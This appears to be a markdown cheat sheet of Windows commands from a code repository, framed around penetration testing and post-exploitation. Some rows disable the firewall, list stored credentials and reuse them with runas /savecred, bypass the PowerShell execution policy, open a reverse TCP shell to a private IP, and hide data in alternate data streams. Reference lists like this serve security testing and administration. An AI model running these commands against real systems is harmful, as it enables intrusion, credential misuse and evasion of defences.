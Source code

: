 ## Windows Commands

|:---	|---:|
| |description|
|:---	|---:|
|`netsh advfirewall show allprofiles state`|windows firewall check status|
|:---	|---:|
|`netsh advfirewall show currentprofile`|windows firewall show profile|
|:---	|---:|
|`netsh advfirewall firewall show rule name=all`|windows firewall show rules|
|:---	|---:|
|`netsh advfirewall set allprofiles state off`|windows firewall disable|
|:---	|---:|
|`netsh advfirewall set allprofiles state on`|windows firewall enable|
|:---	|---:|
|`wmic product get name, version, vendor`|list installed applications|
|:---	|---:|
|`wmic qfe get Caption, Description, HotFixID, InstalledOn`|list installed patch|
|:---	|---:|
|`where /R C:\ file.exe`|search file|
|:---	|---:|
|`type file.txt | findstr /si "KB5013624"`|search content|
|:---	|---:|
|`cmdkey /list`|show stored credentials|
|:---	|---:|
|`C:\Windows\System32\runas.exe /user:<stored_user> /savecred "C:\Windows\System32\cmd.exe /c <command>"`|leverage stored credentials|
|:---	|---:|
|`powershell -ep bypass [script_path]` <br/> `powershell -ep unstricted [script_path]`|powershell change execution policy|
|:---	|---:|
|`Invoke-PowerShellTcp -Reverse -IPAddress 192.168.1.100 -Port 8080`|powershell reverse tcp|
|:---	|---:|
|`echo secrettext > file.txt:showme`|create file with alternate data stream(ADS)|
|:---	|---:|
|`dir /R`|inspect file with alternative data stream(ADS) content|
|:---	|---:|



